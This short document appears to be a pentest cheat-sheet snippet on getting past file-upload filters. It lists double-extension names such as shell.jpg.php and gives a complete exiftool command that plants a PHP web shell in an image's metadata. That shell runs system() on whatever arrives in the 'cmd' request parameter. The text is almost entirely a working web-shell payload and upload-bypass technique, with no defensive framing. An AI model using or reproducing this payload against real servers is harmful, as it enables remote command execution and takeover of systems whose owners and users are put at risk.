 Shell bypass some case for filter
1. shell.gif.php
2. shell.jpg.php

We need embeded php code in images as:

Create malicous image file in rce.jpg by exiftool

`exiftool -DocumentName="<h1>PHP Shell<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" shell.jpg`
